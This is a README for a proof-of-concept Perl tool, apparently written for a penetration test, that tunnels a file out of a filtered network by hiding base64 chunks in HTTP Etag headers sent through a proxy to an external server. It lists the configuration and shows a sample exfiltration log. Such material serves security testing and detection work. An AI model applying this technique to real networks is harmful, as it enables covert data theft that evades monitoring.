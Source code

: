 Wondjina client/server PoC for HTTP Etag tunneling
Author: Maarten Van Horenbeeck [maarten@daemon.be]
URL: http://www.daemon.be/maarten/etagtunnel.html

This tool is provided only as a proof of concept to show that
HTTP tunneling over Etags/If-None-Match headers can easily be
accomplished. It is not a software release.

1. OUTLINE

"In Aboriginal mythology, the Wondjina (or wandjina) were cloud and rain
 spirits who, during the Dream time, painted their images (as humans but
 without mouths) on cave walls. Their ghosts still exist in small ponds."
                        http://en.wikipedia.org/wiki/Wondjina

Wondjina splits a file in short byte-strings (of user-definable
length), encodes them using Base64 and then transmits the file
through an HTTP proxy to a server listening on the internet.

It is not a tool, merely proof of concept code that was created
during a penetration test in which our team was required to 
move a file out of a stringently filtered network. DNS tunneling
was not an option - only HTTP proxies could do external lookups;
regular HTTP tunneling was an issue as request strings were logged.

Not headers though.

2. USE and CONFIGURATION

Requirements: MIME::Base64 Perl module

Run 'wondjinad.pl' on the server, and adjust the following
variables in the Perl file where required:

 $port = 80;
  Port to which to bind.

 $host = '64.246.44.158';
  IP address to bind to.

 $file = 'wondjina.out';
  File to store all received data to.

 $size = '1024';
  Size of random response to generate to client.
  If this is high, the transfer will slow down.

Run 'wondjina.pl' on the client, and adjust the following
variables in the Perl file where required:

 $daemon = '64.246.44.158';
  Destination server to which to tunnel. This can be a host-name
  or IP address. Proxy must be able to resolve this.

 $host = '10.0.0.1';
 $host = '10.0.0.1';
  The IP address of your proxy server.

 $port = 3128;
  The port number of your proxy server.

 $datasource = './wondjina.in';
  The file to be tunneled.

 $header = 90;
  Size of the Etag header. The higher, the more apparent the
  transfer will be, but the faster it will go.

 $file = 'wondjina.txt';
  Filename to request on the Wondjina daemon.

An example of a transaction:

Server:
-------
[root@mojave tunnel]# ./wondjinad.pl
Wondjina server [Web Header Tunneling]
Accepting content on 64.246.44.158 port 80 and storing in wondjina.out

Client:
-------
maarten@qetesh:~$ ./wondjina.pl
Wondjina client [Web Header Tunneling]
Transmitting ./wondjina.in to 64.246.44.158 through 10.0.0.1 port 3128

Processing IyEgL3Vzci9iaW4vcGVybApldmE=
Processing bCAiZXhlYyAvdXNyL2Jpbi9wZXI=
Processing bCAtUyAkMCAkKiIKICAgIGlmIDA=
Processing OwojIENvcHlyaWdodCAoQykgMTk=
[...]

Server:
-------
[...]
Generating 1024 bytes of semi-random data

Processing aCBEcmVwcGVyIDxkcmVwcGVyXEA=
Processing Z251Lm9yZz5cbiI7CgoJZXhpdCA=
Processing MDsKICAgIH0gZWxzaWYgKCRBUkc=
Processing VlswXSBlcSAiLS1oIiB8fCAkQVI=
[...]

Client:
-------
[...]
Processing IiwgaGV4KCRhZGRyKSwgJGFsbG8=
Processing Y2F0ZWR7JGFkZHJ9LAoJCSAgICA=
Processing JHdoZXJld2FzeyRhZGRyfSk7Cgk=
Processing fQogICAgfQp9CnByaW50ICJObyA=
Processing bWVtb3J5IGxlYWtzLlxuIiBpZiA=
Processing KCRhbnl0aGluZyA9PSAwKTsKCmU=
Processing eGl0ICRhbnl0aGluZyAhPSAwOwo=

[~] Transfer completed.
